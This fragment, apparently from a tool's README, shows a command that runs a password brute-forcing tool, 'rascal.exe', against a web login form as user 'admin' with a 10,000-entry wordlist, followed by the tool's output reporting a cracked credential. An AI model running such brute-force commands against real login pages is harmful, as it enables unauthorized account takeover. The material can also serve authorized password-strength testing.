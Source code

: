 > .\rascal.exe --post -u https://***.com/123123/login.php -w C:\tools\xato-10k.txt --username admin --username_field user_id --password_field passwd --success_text OK

        -- SETTINGS VERIFICATION --
        username: admin
        password list: C:\tools\xato-10k.txt
        username post form field: user_id
        password post form field: passwd
        success message: OK
        failure message: None

    Does this look OK? (Y/n)
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999